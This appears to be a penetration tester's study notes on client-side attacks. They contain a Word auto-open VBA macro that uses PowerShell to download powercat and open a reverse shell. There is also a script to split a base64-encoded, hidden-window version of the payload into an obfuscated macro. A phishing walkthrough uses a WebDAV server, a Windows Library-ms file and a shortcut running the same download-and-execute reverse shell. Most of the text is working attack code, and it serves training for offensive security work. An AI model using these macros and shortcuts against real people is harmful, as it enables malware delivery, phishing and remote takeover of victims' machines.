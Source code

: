 

---
---
# Using Macros

```c
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1') | IEX;powercat -c 192.168.xxx.xxx -p 4444 -e powershell"
    Shell str, vbHide
End Sub

```

> the encoding should be  UTF16 base64 also i should make every 50 chrar on a line 

```python
encoded_str = "powershell.exe -nop -w hidden -e AEkARQBYACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxADEAOQAuADIALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkAOwBwAG8AdwBlAHIAYwBhAHQAIAAtAGMAIAAxADkAMgAuADEANgA4AC4AMQAxADkALgAyACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw="

n = 50

for i in range(0, len(encoded_str), n):
    print("Str = Str + " + '"' + encoded_str[i:i+n] + '"')
```


> The final Result should be like : 

```c
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SUVYKE5ldy1PYmp"
    Str = Str + "lY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3Rya"
    Str = Str + "W5nKCdodHRwOi8vMTkyLjE2OC40NS4yNDkvcG93ZXJjYXQucHM"
    Str = Str + "xJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4yNDkgLXAgNDQ0N"
    Str = Str + "CAtZSBwb3dlcnNoZWxs"
    
    CreateObject("Wscript.Shell").Run Str
End Sub
```

> UTF16 base64 this 

```c
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

---
---
# Phishing Using Email


> install the web server 

```c
kali@kali:~$ pip3 install wsgidav           
Defaulting to user installation because normal site-packages is not writeable
Collecting wsgidav
  Downloading WsgiDAV-4.0.1-py3-none-any.whl (171 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 171.3/171.3 KB 1.6 MB/s eta 0:00:00
...  
Successfully installed json5-0.9.6 wsgidav-4.0.1    
```

> create a directory to host the webserver and touch a file 

```c
kali@kali:~$ mkdir /home/kali/webdav

kali@kali:~$ touch /home/kali/webdav/test.txt
```

> Launch the web server

```c
 /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

> NExt open the windows  machine and create a new file via visual studio with the name `config.Library-ms`  with this content


```c
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

after that close the program and re open , the value of the url should be edited 

> next create a shortcut with this content 

```c
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

dont forget to open a webserver on port 8000 and a listener on port 4444 

and put the shortcut on the ms-library.conf 

and finaly transfer the file to linux in order to send the email , or via smb anything that the user check include the frp 

---
---
